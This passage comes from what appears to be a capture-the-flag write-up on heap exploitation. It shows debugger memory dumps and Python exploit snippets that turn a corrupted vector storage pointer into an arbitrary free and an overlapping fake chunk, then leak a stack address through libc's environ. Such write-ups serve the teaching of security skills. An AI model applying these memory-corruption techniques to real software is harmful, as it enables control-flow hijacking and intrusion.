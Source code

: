 As can be seen, the storage pointer now gets replaced with 0xdeadbeef. This should trigger a segmentation fault. Checking in gdb,

```glsl
pwndbg> bt
#0  0x00007f03e4aecd45 in __GI___libc_free (mem=0xdeadbeef) at ./malloc/malloc.c:3375
```

The free function was called with 0xdeadbeef indeed. So, we got our arbitrary free! But we don't really have any interesting target to free right now, so let's just set it to 0 for now to avoid the segfault.

```bash
0x564173c8a240  0x0000000000000000      0x0000000000000000      ................
0x564173c8a250  0x0000000000000000      0x0000000000000000      ................
0x564173c8a260  0x0000000000000000      0x0000000000000000      ................ #--> Our Fake Chunk
0x564173c8a270  0x0000000000000000      0x0000000000000071      ........q.......
0x564173c8a280  0x0000564417df9eea      0x0000000000000000      ....DV..........
0x564173c8a290  0x0000000000000000      0x0000000000000021      ........!.......
0x564173c8a2a0  0x0000564173c8a260      0x0000000000000611      `..sAV.......... #--> Vector Struct
0x564173c8a2b0  0x00007f03e4c42b20      0x00007f03e4c42b20       +...... +......
0x564173c8a2c0  0x0000000564173c8a      0x8fe726c9dc7a332d      .<.d....-3z..&..         <-- tcachebins[0x30][0/1]
0x564173c8a2d0  0x0000000000000003      0x0000000000000021      ........!.......
0x564173c8a2e0  0x0000000000000000      0x0000000000000021      ........!.......
```

Looking at the output again, somehow the storage pointer has turned into another address. If we check, it points to our fake chunk! So doing this, we also have allocated a fake chunk that overlaps the vector struct, and we can insert any values in there. That means we have gained control of all the data in the Vector Struct, most importantly the storage pointer.

Since we've gained control of it, now we just have to play with the push and pop operations such that it allows us to overwrite the storage pointer. I will not explain in detail about the push and pop operations, as this is fairly trivial since you only have to do a bit of math and utilize the tampered size field.

After gaining control of the storage pointer, we can push the address of libc's environ. Keep in mind that after doing this, our storage pointer will point to libc and we will not have any access to the heap. Let's do that!

```python
target = libc.sym.environ-0x38 #--> Adjusting to account for the size field.
push(convert(target))

pop()
stackleak = eval(pop())
info(f'StackLeak: 0x{stackleak:02x}')
```

Running that, and...

```python
[*] Heap leak: 0x564173c8a000
[*] Rand leak: 0x8fe726c9dc7a332d
[*] Libc Leak: 0x7f03e4c42b20
[*] Libc Base: 0x7f03e4a3f000
[*] Stack leak: 0x7fff44b0d4c8
```
